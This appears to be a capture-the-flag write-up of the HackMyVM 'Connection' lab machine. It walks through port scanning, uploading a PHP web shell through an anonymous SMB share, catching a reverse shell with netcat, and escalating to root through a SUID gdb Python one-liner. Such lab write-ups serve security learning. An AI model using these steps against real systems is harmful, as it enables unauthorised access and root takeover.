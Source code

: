 ```yaml
---
title: HackMyVM - Connection
description: My writeup on Connection box.
categories:
 - HackMyVM
tags: HackMyVM smb gdb suid
---
```


![](https://i.imgur.com/VYEVjve.png)

You can start playing there > [HackMyVM](https://hackmyvm.eu/){:target="_blank"}

## Summary

I found this really cool lab, similar to vulnhub but has point system/ranking etc. I suggest you to try this out, 101% worth it. We start by finding a share on SMB that we can connect as anonymous and we can upload our shell there this gives us a shell as www-data. Privesc to root is a simple SUID exploitation. Let’s pwn it! :sunglasses:

## Enumeration/Reconnaissance

Let's start as always with nmap.

```
$ ip=192.168.1.17
$ nmap -p- --min-rate 10000 $ip
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 12:27 EEST
Nmap scan report for connection.zte.com.cn (192.168.1.17)
Host is up (0.00020s latency).
Not shown: 65531 closed ports
PORT    STATE SERVICE
22/tcp  open  ssh
80/tcp  open  http
139/tcp open  netbios-ssn
445/tcp open  microsoft-ds
MAC Address: 08:00:27:49:78:7B (Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 2.20 seconds
$ nmap -p 22,80,139,445 -sC -sV -oN nmap/initial $ip 
Starting Nmap 7.80 ( https://nmap.org ) at 2020-10-01 12:28 EEST
Nmap scan report for connection.zte.com.cn (192.168.1.17)
Host is up (0.00047s latency).

PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 7.9p1 Debian 10+deb10u2 (protocol 2.0)
| ssh-hostkey: 
|   2048 b7:e6:01:b5:f9:06:a1:ea:40:04:29:44:f4:df:22:a1 (RSA)
|   256 fb:16:94:df:93:89:c7:56:85:84:22:9e:a0:be:7c:95 (ECDSA)
|_  256 45:2e:fb:87:04:eb:d1:8b:92:6f:6a:ea:5a:a2:a1:1c (ED25519)
80/tcp  open  http        Apache httpd 2.4.38 ((Debian))
|_http-server-header: Apache/2.4.38 (Debian)
|_http-title: Apache2 Debian Default Page: It works
139/tcp open  netbios-ssn Samba smbd 3.X - 4.X (workgroup: WORKGROUP)
445/tcp open  netbios-ssn Samba smbd 4.9.5-Debian (workgroup: WORKGROUP)
```

Let's start with SMB, as always let's list the shares.

```
$ smbmap -H $ip
[+] IP: 192.168.1.17:445	Name: connection.zte.com.cn                             
 Disk                                               Permissions	Comment
	----                                               -----------	-------
	share                                             	READ ONLY	
	print$                                            	NO ACCESS	  Printer Drivers
	IPC$                                              	NO ACCESS	  IPC Service (Private Share for uploading files)
```

Let's connect to `share`:

```
$ smbclient //$ip/share
Enter WORKGROUP\root's password: 
Anonymous login successful
Try "help" to get a list of possible commands.
smb: > ls
  .                                   D        0  Wed Sep 23 04:48:39 2020
  ..                                  D        0  Wed Sep 23 04:48:39 2020
  html                                D        0  Thu Oct  1 12:32:02 2020

		7158264 blocks of size 1024. 5462992 blocks available
smb: > cd html
smb: html> ls
  .                                   D        0  Thu Oct  1 12:32:02 2020
  ..                                  D        0  Wed Sep 23 04:48:39 2020
  index.html                          N    10701  Wed Sep 23 04:48:45 2020

		7158264 blocks of size 1024. 5462992 blocks available
smb: html> 
```

We have access to web content, we can simply upload our shell and execute it!

## Shell as www-data

```
smb: html> put shell.php
putting file shell.php as \html\shell.php (1073.0 kb/s) (average 1073.0 kb/s)
smb: html> exit
$ curl http://$ip/shell.php
```

```
$ nc -lvp 5555
listening on [any] 5555 ...

$ python3 -c 'import pty; pty.spawn("/bin/bash")'
www-data@connection:/$ whoami;id
www-data
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```

## Shell as root

If we search for SUIDS, we can see `gdb` is set as SUID we can simply exploit this to get root shell:

```
www-data@connection:/home/connection$ find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \;
-rwsr-xr-x 1 root root 10232 Mar 28  2017 /usr/lib/eject/dmcrypt-get-device
-rwsr-xr-- 1 root messagebus 51184 Jul  5 12:10 /usr/lib/dbus-1.0/dbus-daemon-launch-helper
-rwsr-xr-x 1 root root 436552 Jan 31  2020 /usr/lib/openssh/ssh-keysign
-rwsr-xr-x 1 root root 44440 Jul 27  2018 /usr/bin/newgrp
-rwsr-xr-x 1 root root 34888 Jan 10  2019 /usr/bin/umount
-rwsr-xr-x 1 root root 63568 Jan 10  2019 /usr/bin/su
-rwsr-xr-x 1 root root 63736 Jul 27  2018 /usr/bin/passwd
-rwsr-sr-x 1 root root 8008480 Oct 14  2019 /usr/bin/gdb
-rwsr-xr-x 1 root root 44528 Jul 27  2018 /usr/bin/chsh
-rwsr-xr-x 1 root root 54096 Jul 27  2018 /usr/bin/chfn
-rwsr-xr-x 1 root root 51280 Jan 10  2019 /usr/bin/mount
-rwsr-xr-x 1 root root 84016 Jul 27  2018 /usr/bin/gpasswd
```

```
www-data@connection:/home/connection$ gdb -q -nx -ex 'python import os; os.execl("/bin/sh", "sh", "-p")' -ex quit
# whoami;id
root
uid=33(www-data) gid=33(www-data) euid=0(root) egid=0(root) groups=0(root),33(www-data)
```

Let's read the flags:

```
# cat /root/proof.txt | cut -c1-10          
a7c6ea4931
# cat /home/connection/local.txt | cut -c1-10
3f491443a2
```

Good one!
